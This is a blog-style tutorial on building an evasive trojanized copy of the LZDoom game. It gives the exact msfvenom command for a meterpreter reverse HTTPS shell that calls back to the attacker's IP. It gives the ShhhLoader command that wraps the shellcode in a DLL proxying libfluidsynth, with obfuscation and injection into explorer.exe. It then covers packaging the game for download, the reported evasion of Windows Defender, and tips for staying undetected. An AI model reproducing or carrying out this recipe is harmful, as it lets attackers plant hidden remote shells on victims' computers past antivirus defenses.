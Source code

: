 # My weekend dive into evasive malware 

So, I've been playing with a bunch of different tools recently just for fun, and figured I'd try to put together something to illustrate how I go about building evasive malware payloads. 

## Nature of the project 

What I ended up going for was to simulate a typical malware-laden pirated game. For this purpose, I utilized the open source game engine LZDoom with the FreeDoom WAD so that I would have a base piece of software to trojanize that would be similarly complex to a commercial game. 

In order to accomplish this, I utilized several off the shelf tools. 

- msfvenom and meterpreter for a shellcode payload. 
- shhhloader for AV evasion and shellcode loading. 

...and that's really it. 

## Building out my payload shellcode 

This was a pretty basic msfvenom job. In order to be maximally evasive, I wanted to use a reverse HTTPS shell, and for compatibility with ShhhLoader, I output it as raw x64 shellcode. Here's the command line: 

```

msfvenom -p windows/x64/meterpreter/reverse_https LPORT=443 LHOST=[my IP] -f raw > shellcode.raw 

```

Not much to it! 

## Reconning for DLL proxying 

In order to make my final malware package look legit, I needed a way to launch my payload while also preserving the functionality of LZDoom so that the hypothetical victim wouldn't suspect that he's just run a busted piece of malware. I had a couple options: 

1. Trojanize the application with assembly. I don't quite know how to do this, so...I didn't. 
2. Write a loader application in C to call both the application executable and a payload executable. This seems pretty jank, though, so I didn't do it. 
3. Use MSFVenom to build out a backdoored EXE. This would break my ability to use ShhhLoader down the road, though. 
4. DLL proxying. Bingo! 

DLL proxying is effectively where one makes a malicious DLL that contains your payload, but also loads functions in from a legitimate DLL in order to preserve the legitimate DLL's functionality. In effect, it *proxies* the legitimate functions from the legitimate DLL through a malicious DLL that effectively serves as a malicious man in the middle between the calling EXE and the DLL it relies on. 

In order to do this, we need to identify a DLL that the application loads, and then we can use ShhhLoader along with a copy of the legitimate DLL to build a DLL proxy payload. 

LZDoom comes with several DLLs to provide various functionalities, e.g. SDL.dll for graphics, libfluidsynth for midi playback, etc. However, not all of the included DLLs with the game are necessarily loaded when the game is run in it's default configuration. In order to discover which DLL would actually be used by the application and thus be a good candidate for proxying, I had to do a bit of recon. This was accomplished simply enough by downloading a legitimate copy of LZDoom to my Windows 10 test VM, and then simply running it and inspecting which DLLs the game loaded. 

To inspect the loaded DLLs, I simply used the task manager -> performance, and then opened the resource monitor by clicking the link at the bottom of the application window labeled "Open Resource Monitor" (this can also be simply searched for in the start menu under "resource monitor"). In the resource monitor, I could then select the LZDoom process and see which DLLs it had loaded. 

I identified libfluidsynth (the midi sound library) as a good candidate for proxying. 

## Building out my proxied DLL with ShhhLoader 

ShhhLoader is an excellent tool for creating evasive payloads that utilize the SysWhispers method of direct syscalls to avoid detection by the API hooks used by many anti-virus solutions. If I recall correctly, this works by effectively reimplementing the ntdll.dll win32 API calls as direct syscalls to the NT Native API calls used by the OS kernel. By doing this, the API hooks (which usually inspect the userland win32 API calls and not the NT Native API calls) are unable to detect malicious activity performed by the payload. More information about this can be found on [that project's github.](https://github.com/icyguider/Shhhloader)

In order to use ShhhLoader to it's full extent, please consult the install instructions on that project's page, and *be sure to install OLLVM* support so that you can enable obsfucated payload compilation. This feature can make or break whether AV is able to detect the payload or not! 

Either way, to build out the DLL proxy payload, I had to get a copy of the legitimate fluidsynth DLL that was included with LZDoom and rename it to something that would seem legitimate. This was originally called libfluidsynth64.dll, so I renamed it libfluidsynth64_dev.dll. Dev versions of libraries are usually used for when one needs to compile against that library, so it seems like it would be a perfectly legitimate name...

Following this, I built out the payload as follows: 

```

./Shhhloader.py -l -ns -dp libfluidsynth64_dev.dll -p explorer.exe -o libfluidsynth64.dll shellcode.raw 

```

Breaking it down, what I did was: 

|Flag|Description|
|-|-|
|-l|Use OLLVM for obsfucated compilation|
|-ns|No sandbox evasion. This defaults to sleep evasion, and I'm impatient. It also hasn't been necessary in most of my testing with ShhhLoader.|
|-dp libfluidsynth64_dev.dll|Create a DLL proxy payload that proxies functions from libfluidsynth64_dev.dll (the legitimate DLL)|
|-p explorer.exe|Do process injection into explorer.exe. This could have been anything, and I often also use spoolsv.exe when targeting workstations since the print spooler will also likely be running.|
|-o libfluidsynth64.dll|Output the malicious DLL as libfluidsynth64.dll|
|shellcode.raw|The raw meterpreter shellcode we generated earlier and want to use as a payload|


## Packaging and delivery 

From here, turning this into a functional and distributable malware package was fairly simple. I just copied my malicious DLL and the renamed legitimate DLL into the application directory for LZDoom (which is portable), zipped it up and served it over a python3 http server. 

On my test victim VM, I was able to successfully download this archive, and run the game with no issues (although, LZDoom is an unsigned EXE, so Windows did complain a bit to try and prevent me from running it). As soon as the midi synthesizer in the game fired up, I was able to catch a reverse HTTPS shell back on my attack machine. 

This was able to avoid detection by 100% updated Windows Defender (as of Feb 2023) with both real time detection and cloud supported defense enabled. 

## Caveats 

- ShhhLoader can only generate 64 bit payloads. If you want/need to backdoor a 32 bit app using it, different methods will need to be used. 
- Just because you can get a shell to pop and do some rudimentary rooting around in the filesystem without setting off AV, this does not mean that you can do anything with absolute impunity! Trying to load additional malware that is *not* similarly obsfucated will likely result in a detection, as will bad behavioural actions such as trying to modify the registry for the purpose of exploiting the fodhelper UAC Bypass, etc. You still need to keep on your toes about defense evasion to go from this simple example to a fully rooted victim.
- Be sure to encrypt the network connection by using an HTTPS shell or similar. Doing this with an unencrypted network connection will almost certainly get flagged by the firewall, especially with a staged payload, since the plaintext shell will be running around in the tubes. 








